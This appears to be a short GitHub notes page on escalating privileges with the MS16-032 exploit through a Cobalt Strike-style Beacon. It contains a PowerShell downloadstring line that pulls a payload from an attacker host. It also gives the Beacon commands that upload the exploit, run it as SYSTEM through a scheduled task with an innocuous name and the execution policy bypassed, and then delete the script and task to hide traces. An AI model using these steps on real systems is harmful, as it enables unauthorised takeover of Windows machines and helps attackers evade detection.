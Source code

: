 ## Updated Exploit ms16-032 to get a Beacon back

You need a unpriviledged Shell/Beacon on the target. Don't forget to change the exploit for your correct ListenerName 
```
... downloadstring('http://172.16.0.5:80/a')) ...
```
## Get a Beacon with System Priviledges
```
beacon> cd C:\Windows\Temp
beacon> upload /root/tools/files/ms16-032_beacon.ps1

Now create a schtasks to run your exploit:
beacon> shell schtasks /Create /TN UpdateSRV /SC once /ST 10:10 /TR "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -exec bypass C:\Windows\Temp\ms16-032_beacon.ps1"
System beacon calls back :)

Delete Beacon:
beacon> shell del C:\Windows\Temp\ms16-032_beacon.ps1
Delete Task:
beacon> shell schtasks /Delete /TN UpdateSRV /F
[*] Tasked beacon to run: schtasks /Delete /TN UpdateSRV /F
SUCCESS: The scheduled task "UpdateSRV" was successfully deleted.
```
